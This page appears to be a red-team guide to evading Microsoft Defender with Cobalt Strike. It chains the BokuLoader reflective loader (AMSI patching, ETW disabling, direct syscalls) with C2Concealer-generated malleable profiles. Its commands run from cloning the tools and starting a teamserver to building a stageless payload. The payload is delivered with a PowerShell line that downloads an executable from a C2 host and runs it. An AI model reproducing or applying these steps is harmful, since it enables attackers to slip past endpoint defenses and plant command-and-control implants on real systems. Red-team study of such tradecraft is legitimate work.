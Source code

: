 ```yaml
---
description: quick guide to evading Defender (as of 26 May 202)
---
```


# Evading Defender with CobaltStrike

The following guide is based off of [BokuLoader](https://github.com/boku7/BokuLoader) and [C2Concealer](https://github.com/FortyNorthSecurity/C2concealer). BokuLoader utilizes [Halo's Gate](https://blog.sektor7.net/#!res/2021/halosgate.md) to perform direct syscalls, patches AmsiOpenSession to disable AMSI, and disables [windows event tracing](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/). For a more in depth guide on how Reflective DLLs work or how AMSI is disabled within this process I recommend [Sektor7s ](https://www.sektor7.net/#training)Malware Development and Windows Evasion courses or OffSec's [PEN-300](https://www.offensive-security.com/pen300-osep/) course. &#x20;

To start clone both github projects mentioned earlier

```
git clone https://github.com/boku7/BokuLoader
git clone https://github.com/FortyNorthSecurity/C2concealer
```

You'll want to run C2concealer's install script and update the _main_.py script with the location of your CobaltStrike folder. With that information updated and C2Concealer installed, its time to generate your own profile. Keep in mind you should follow FortyNorthSecurity's [guide](https://github.com/FortyNorthSecurity/C2concealer#customizing-the-tool) for customizing the tool to your Op.&#x20;

```
C2concealer --hostname test.com --variant 1
```

If the profile fails to generate, run the script a couple more times.&#x20;

Next start up your teamserver.&#x20;

```
./teamserver <IP> <password> <Path To C2concealer Generated Profile>
```

&#x20;Now it's time to update the artifact kit to set the stagesize to 412256. Update this in `build.sh` and `dist-template/artifact.cna`

![build.sh](<../../.gitbook/assets/image (180).png>)

![dist-template/artifact.cna](<../../.gitbook/assets/image (179).png>)

Now its time to load the `dist-template/artifact.cna` and `BokuLoader.cna` aggressor scripts in CobaltStrike.

Now generate your x64 stageless payload (Attacks -> Packages -> Windows Executable (S)). A successful payload generation should look something like this in your script console:&#x20;

![Successful generation](<../../.gitbook/assets/image (181).png>)

Now it's time to deliver the payload to the target, in this example we used hosted file to drop the payload on disk and run the exe. (Attacks -> Web Drive-by -> Host File)&#x20;

If you're just testing this, make sure to disable Tamper Protection, Automatic Sample Submission, and Cloud Delivered Protection.&#x20;

download and execute the payload in whatever manner you want, we choose to use powershell.&#x20;

```
 iwr -uri http://10.10.100.100/download/file.exe -outfile file.exe
 .\file.exe
```

![PROFIT](<../../.gitbook/assets/image (184).png>)
